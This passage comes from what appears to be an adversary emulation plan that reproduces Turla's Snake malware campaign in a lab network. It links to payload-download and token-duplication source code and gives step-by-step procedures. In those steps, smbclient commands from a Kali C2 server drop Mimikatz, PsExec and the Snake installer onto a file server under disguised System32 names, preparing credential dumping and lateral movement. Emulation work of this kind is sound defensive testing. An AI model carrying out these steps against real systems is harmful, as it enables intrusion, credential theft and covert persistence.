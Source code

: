   * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
  * [Powershell execution](../../Resources/Snake/UserModule/src/execute.cpp#L372)

### :microscope: Cited Intelligence

* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Test 12: Credential Dumping, Lateral Movement, and Persistence

:microphone: `Voice Track:`

Test 12 emulates Turla performing credential dumping on the file server, and then performing lateral movement to the domain admin's workstation and performing additional persistence by creating a new domain admin account.

---

### :biohazard: Procedures

:arrow_right: Start a new RDP session to `uosis (10.100.40.102)` as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Click on the search bar and search for `powershell`. Right click `powershell` and then click "Run as Administrator".

* When prompted, type in the username and password for `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:
```pwsh
whoami
```

:arrow_right: Return to your Kali C2 server

* From the `smbclient` Kali terminal tab, copy MimiKatz, PsExec, and the Snake installer, to the file server `berzas`:
```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/mimikatz.exe Windows\System32\loadperf.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\fs_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.30.204/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v3.exe Windows\System32\cmu_svc.exe'
```
